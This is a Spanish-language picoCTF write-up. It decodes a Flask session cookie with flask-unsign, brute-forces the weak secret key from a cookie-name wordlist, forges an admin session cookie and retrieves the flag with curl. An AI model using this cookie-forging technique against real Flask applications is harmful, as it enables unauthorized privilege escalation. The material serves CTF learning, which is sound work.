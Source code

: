 ## Objetivo
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py) [http://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)
## Solución
Instalamos pipx
```bash
──(kali㉿kali)-[~/picoCTF]
└─$ pipx ensurepath
Success! Added /home/kali/.local/bin to the PATH environment variable.

Consider adding shell completions for pipx. Run 'pipx completions' for
instructions.

You will need to open a new terminal or re-login for the PATH changes to take
effect. Alternatively, you can source your shell's config file with e.g.
'source ~/.bashrc.

Otherwise pipx is ready to go! ✨ 🌟 ✨
                                                                                 
┌──(kali㉿kali)-[~/picoCTF]
└─$ source ~/.zshrc
┌──(kali㉿kali)-[~/picoCTF]
└─$ pipx install flask-unsign
  installed package flask-unsign 1.2.0, installed using Python 3.12.6
  These apps are now globally available
    - flask-unsign
done! ✨ 🌟 ✨
┌──(kali㉿kali)-[~/picoCTF]
└─$ flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZvtrAA.HXA2cIX0vh26XWvp9oZnvamur0g"
{'very_auth': 'snickerdoodle'}
                             
```
Creamos un archivo con las galletas
```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```
Finalmente cambiamos la cookie por la que nos va a dar la contraseña
```bash
┌──(kali㉿kali)-[~/picoCTF]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZvtrAA.HXA2cIX0vh26XWvp9oZnvamur0g" --wordlist galletas.txt 
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
┌──(kali㉿kali)-[~/picoCTF]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zvtv6g.XmYDj_oJ0NiaWdkzziRkuWqb91w

┌──(kali㉿kali)-[~/picoCTF]
└─$ curl -s http://mercury.picoctf.net:52134/display -H 'Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zvtv6g.XmYDj_oJ0NiaWdkzziRkuWqb91w' | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_3646b931}</code></p>



```
## Notas Adicionales
PipX es una **herramienta para instalar software escrito en Python por medio de espacios separados**. Está diseñada para ejecutar programas sin tener que forzar a cambiar la dependencia de otros programas.

## Referencias
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask